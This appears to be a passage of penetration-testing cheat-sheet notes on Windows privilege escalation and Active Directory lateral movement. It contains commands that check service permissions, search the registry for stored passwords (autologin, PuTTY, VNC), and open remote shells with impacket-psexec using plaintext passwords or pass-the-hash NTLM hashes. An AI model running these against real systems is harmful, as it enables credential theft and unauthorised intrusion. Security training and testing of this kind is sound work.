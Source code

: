 #### Windows Services - insecure file persmissions

````bash
get-service
get-service ApacheHTTPServer | get-member
get-service ApacheHTTPServer | Select-Object *
Get-CIMInstance -Class Win32_Service -Filter "name ='MSSQL' " | Select-Object *
Get-CIMInstance -Class Win32_Service -filter "StartName != 'LocalSystem' AND NOT StartName LIKE 'NT Authority%' " | Select-Object * | Sort-Object StartName
wmic service list brief
sc query
.\accesschk.exe -ucqv ApacheHTTPServer -accepteula
.\accesschk.exe -wvud ApacheHTTPServer -accepteula # What the pro useus
accesschk.exe /accepteula -uwcqv "Authenticated Users" * #command refer to exploits below
````

#### Interesting Registry Keys

```bash
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### AD Lateral Movement

##### Network

```bash
nslookup #use this tool to internally find the next computer to pivot to.
example-app23.example.com #found this from either the tgt, mimikatz, etc. Shows you where to go next
Address: 10.11.1.121
```

###### SMB

```bash
impacket-psexec jess:Flowers1@172.16.138.11 cmd.exe
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 Admin@192.168.129.59
impacket-psexec -hashes lm:ntlm zenservice@192.168.183.170
```

###### WINRM
